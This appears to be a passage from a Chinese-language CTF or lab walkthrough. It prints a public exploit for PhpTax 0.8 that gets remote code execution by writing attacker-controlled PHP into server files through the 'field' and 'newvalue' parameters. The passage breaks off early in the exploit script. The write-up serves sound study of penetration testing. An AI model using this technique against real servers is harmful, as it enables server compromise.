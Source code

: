 不知道为啥，这里就是连不上去。。。。。

换一个办法吧。。。

![image-20240129203101864](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401292217186.png)

```php
┌──(kali㉿kali)-[~]
└─$ cat 25849.txt
#
#  ,--^----------,--------,-----,-------^--,
#  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
#  `+---------------------------^----------|
#    `\_,-------, _________________________|
#      / XXXXXX /`|     /
#     / XXXXXX /  `\   /
#    / XXXXXX /\______(
#   / XXXXXX /
#  / XXXXXX /
# (________(
#  `------'

# Exploit Title   : PhpTax File Manipulation(newvalue,field) Remote Code Execution
# Date            : 31 May 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://phptax.sourceforge.net/
# Software Link   : http://sourceforge.net/projects/phptax/
# Version         : 0.8
# Tested on       : Window and Linux


#####################################################
#VULNERABILITY: FILE MANIPULATION TO REMOTE COMMAND EXECUTION
#####################################################

#index.php

#LINE 32: fwrite fwrite($zz, "$_GET['newvalue']");
#LINE 31: $zz = fopen("./data/$field", "w");
#LINE  2: $field = $_GET['field'];

#####################################################
#DESCRIPTION
#####################################################

#An attacker might write to arbitrary files or inject arbitrary code into a file with this vulnerability.
#User tainted data is used when creating the file name that will be opened or when creating the string that will be written to the file.
#An attacker can try to write arbitrary PHP code in a PHP file allowing to fully compromise the server.


#####################################################
#EXPLOIT
#####################################################

<?php

$options = getopt('u:');

if(!isset($options['u']))
die("\n        Usage example: php exploit.php -u http://target.com/ \n");
```